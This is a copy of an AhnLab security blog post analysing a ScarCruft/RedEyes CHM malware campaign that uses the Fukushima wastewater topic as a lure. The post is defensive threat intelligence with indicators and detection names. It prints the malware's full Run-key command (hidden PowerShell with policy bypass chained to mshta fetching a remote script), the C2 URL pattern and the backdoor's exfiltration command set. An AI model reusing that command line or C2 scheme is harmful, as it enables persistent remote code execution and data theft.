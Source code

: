 # Reference for threat actor for "Reaper, APT 37, Ricochet Chollima, ScarCruft"

**Title**: RedEyes (ScarCruft)'s CHM Malware Using the Topic of Fukushima Wastewater Release - ASEC BLOG

**Source**: https://asec.ahnlab.com/en/56857/

## Content















RedEyes (ScarCruft)'s CHM Malware Using the Topic of Fukushima Wastewater Release - ASEC BLOG



































































 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By gygy0101  , September 8, 2023 

RedEyes (ScarCruft)’s CHM Malware Using the Topic of Fukushima Wastewater Release 
The AhnLab Security Emergency response Center (ASEC) analysis team has recently discovered that the CHM malware, which is assumed to have been created by the RedEyes threat group, is being distributed again. The CHM malware in distribution operates in a similar way to the “CHM Malware Disguised as Security Email from a Korean Financial Company”[1] covered in March of this year and also uses the same commands used in the “2.3. Persistence”[2] stage in the attack process of the RedEyes group’s M2RAT malware’.
The recent attack used information regarding the release of Fukushima wastewater. By using such a spotlight issue in Korea, the threat actor provokes the user’s curiosity and leads them to open the malicious file. Information about this issue can be seen in the help file window generated when the CHM malware is executed, as shown in Figure 1.

Figure 1. CHM malware containing information regarding the Fukushima wastewater release
Figure 2 shows the malicious script that operates during this process. The mshta command used to be executed directly by the CHM file (hh.exe), but the recently distributed file registers the command to the RUN key enabling it to be run when the system reboots.

Figure 2. Malicious script within the CHM

RUN key registrationRegistry path: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunValue name: fGZtmValue: c:\windows\system32\cmd.exe /c Powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 391763 2.2.2.2 || mshta hxxp://navercorp[.]ru/dashboard/image/202302/4.html

When the command registered to the RUN key is executed, an additional script at a certain URL runs through mshta. The said URL contains a JavaScript (JS) code. This code is responsible for executing an encoded PowerShell command. This process is similar in structure to the commands used in the attack process of previously covered CHM malware and M2RAT malware.

Figure 3. 4.html code
The decoded PowerShell command is a backdoor responsible for registering the RUN key to establish persistence, receiving commands from the threat actor’s server, and transmitting the command execution results. It receives commands from the threat actor’s server, and according to the commands, can perform various malicious behaviors such as uploading/downloading files, transmitting information on specific files, and editing the registry.

C2

hxxp://navercorp[.]ru/dashboard/image/202302/com.php?U=[Computer name]-[User name] // Receive the threat actor’s command
hxxp://navercorp[.]ru/dashboard/image/202302/com.php?R=[BASE64 encoding] // Transmit the command execution results




Figure 4. Decoded PowerShell command

Figure 5. Receiving commands
CommandFeaturefileinfoSaves the list of files and their properties (name, size, last modified time) in a certain path as CSV, transmits this file to the C2 server, then deletes it from the local systemdirCompresses folders in a certain path, transmits them to the C2 server, then deletes them from the local systemfileSends (uploads) a certain file to the C2 serverdownDownloads files in a certain pathregeditEdits the registrytaskAdds a task to the Task Scheduler to be repetitively run at 10-minute intervalszipDecompresses a compressed file in a certain pathrenameChanges the name of a certain filedelDelete files in a certain pathTable 1. List of commands received
When a system is infected with this type of malware, the system can suffer great damage since this malware is capable of performing various malicious acts such as downloading additional files and breaching data according to the threat actor’s commands. In particular, malware that targets users in Korea may include information on topics of interest to the user to encourage them to execute the malware, so users should refrain from opening emails from unknown sources and should not execute their attachments. Users should also regularly scan their PCs and update their security products to the latest engine.
[File Detection]Downloader/CHM.Generic (2023.09.02.00)
[IOC]52f71fadf0ea5ffacd753e83a3d0af1ahxxp://navercorp[.]ru/dashboard/image/202302/4.htmlhxxp://navercorp[.]ru/dashboard/image/202302/com.php
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 
Tagged as:APT37,backdoor,chm,RedEyes,ScarCruft 




Phishing Script File Breaching User Information via Telegram Being Distributed 

BlueShell Used in APT Attacks Against Korean and Thai Targets 







5
1
vote
Article Rating

 





 Subscribe




 Login 




Notify of 


new follow-up comments
new replies to my comments








 







 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 










 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 






0 Comments                    









 Inline Feedbacks                    
View all comments


 













Archives Archives

Select Month
 February 2024 
 January 2024 
 December 2023 
 November 2023 
 October 2023 
 September 2023 
 August 2023 
 July 2023 
 June 2023 
 May 2023 
 April 2023 
 March 2023 
 February 2023 
 January 2023 
 December 2022 
 November 2022 
 October 2022 
 September 2022 
 August 2022 
 July 2022 
 June 2022 
 May 2022 
 April 2022 
 March 2022 
 February 2022 
 January 2022 
 December 2021 
 November 2021 
 October 2021 
 September 2021 
 August 2021 
 July 2021 
 June 2021 
 May 2021 
 April 2021 
 March 2021 
 February 2021 
 January 2021 
 December 2020 
 November 2020 
 September 2020 
 August 2020 
 July 2020 
 June 2020 
 May 2020 
 April 2020 
 March 2020 
 February 2020 
 December 2019 
 November 2019 
 October 2019 
 September 2019 
 August 2019 
 June 2019 
 May 2019 
 April 2019 
 March 2019 
 February 2019 
 January 2019 
 November 2018 
 July 2018 
 April 2018 
 February 2018 


FOLLOW US


LinkedIn   


X   


RSS Feed   









footer(en) 220, Pangyoyeok-ro, Bundang-gu, Seongnam-si, Gyeonggi-do, Korea | Privacy & Security© AhnLab, Inc. All rights reserved.family site


한국 (한국어)
Global (English)
日本 (日本語)
 




wpDiscuzInsert 









 




















































































Loading Comments...



 


Write a Comment...




Email



Name



Website

















































































































































































































































